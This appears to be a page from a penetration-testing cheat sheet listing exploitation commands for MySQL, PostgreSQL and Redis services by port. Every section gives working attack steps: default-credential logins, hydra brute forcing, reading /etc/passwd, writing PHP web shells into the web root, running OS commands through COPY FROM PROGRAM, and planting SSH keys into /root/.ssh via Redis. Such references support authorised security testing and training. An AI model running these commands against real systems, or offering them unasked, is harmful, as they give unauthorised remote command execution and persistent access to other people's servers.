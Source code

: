 
## 🐬 Port 3306 - MySQL
**Service:** MySQL Database  
**Common vulns:** Default creds, UDF exploitation

### Exploitation
```bash
# Connect
mysql -h $TARGET -u root -p
mysql -h $TARGET -u root -ppassword

# Brute force
hydra -l root -P passwords.txt mysql://$TARGET

# Read files
SELECT LOAD_FILE('/etc/passwd');

# Write shell
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

---

## 🗃️ Port 5432 - PostgreSQL
**Service:** PostgreSQL Database  
**Common vulns:** Default creds, command execution

### Exploitation
```bash
psql -h $TARGET -U postgres
# Password: postgres

# Command execution
CREATE TABLE cmd(cmd_output text);
COPY cmd FROM PROGRAM 'id';
SELECT * FROM cmd;
```

---

## 🐒 Port 6379 - Redis
**Service:** Redis key-value store  
**Common vulns:** No authentication, command execution

### Exploitation
```bash
redis-cli -h $TARGET

# Write SSH key
CONFIG SET dir /root/.ssh
CONFIG SET dbfilename authorized_keys
SET x "\n\nssh-rsa YOUR_PUBLIC_KEY\n\n"
SAVE

# Write webshell
CONFIG SET dir /var/www/html
CONFIG SET dbfilename shell.php
SET x "<?php system($_GET['cmd']); ?>"
SAVE
```

---